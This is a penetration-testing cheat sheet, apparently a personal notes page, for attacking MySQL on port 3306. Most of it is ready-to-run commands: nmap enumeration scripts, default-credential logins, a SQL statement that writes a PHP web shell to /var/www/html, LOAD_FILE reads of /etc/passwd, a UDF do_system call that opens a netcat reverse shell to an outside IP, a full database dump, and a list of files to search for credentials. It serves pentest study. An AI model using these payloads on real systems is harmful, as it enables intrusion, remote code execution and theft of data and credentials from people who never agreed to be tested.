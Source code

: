 ```yaml
---
title: "3306 - MySQL"
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - mysql
toc: true
hide_title: true
excerpt: ""
---
```


## Nmap

```
nmap -sV -Pn -vv --script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 $ip -p 3306

nmap -sV -Pn -vv -script=mysql* $ip -p 3306
```
# Connecting to MsSQL from Target

```
mysql -u root 
# Connect to root without password

mysql -u root -p 
# A password will be asked

# Always test root:root credential
```

# Connecting to MsSQL from Attacker

```
mysql -u julio -pPassword123 -h 10.129.20.13
```

## MySQL Commands

| Command                                                                                   | Description                                                                                   |
| ----------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| `SHOW DATABASES;`                                                                         | Show all available databases in MySQL.                                                        |
| `USE htbusers;`                                                                           | Select a specific database in MySQL.                                                          |
| `SHOW TABLES;`                                                                            | Show all available tables in the selected database in MySQL.                                  |
| `SELECT * FROM users;`                                                                    | Select all available entries from the "users" table in MySQL.                                 |
| `SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'` | Create a file using MySQL.                                                                    |
| `show variables like "secure_file_priv";`                                                 | Check if the the secure file privileges are empty to read locally stored files on the system. |
| `select LOAD_FILE("/etc/passwd");`                                                        | Read local files in MySQL.                                                                    |
# If running as root

```
select do_system('nc 192.168.49.136 8080 -e /bin/bash');
```

# Getting all the information from inside the database

```
mysqldump -u admin -p admin --all-databases --skip-lock-tables 
```

# Post Enumeration

Here are list of some files to check after shell on target system to get some credentials or some juicy information that help to get root easily

## Configuration file

### Unix

```
my.cnf
/etc/mysql
/etc/my.cnf
/etc/mysql/my.cnf
/var/lib/mysql/my.cnf
~/.my.cnf
/etc/my.cnf
```

### Windows

```
config.ini
my.ini
windows\my.ini
winnt\my.ini
<InstDir>/mysql/data/
```

## Command History

```
~/.mysql.history
```

## Log Files

```
connections.log
update.log
common.log
```

## Finding passwords to MySQL

```
/var/www/html/configuration.php
```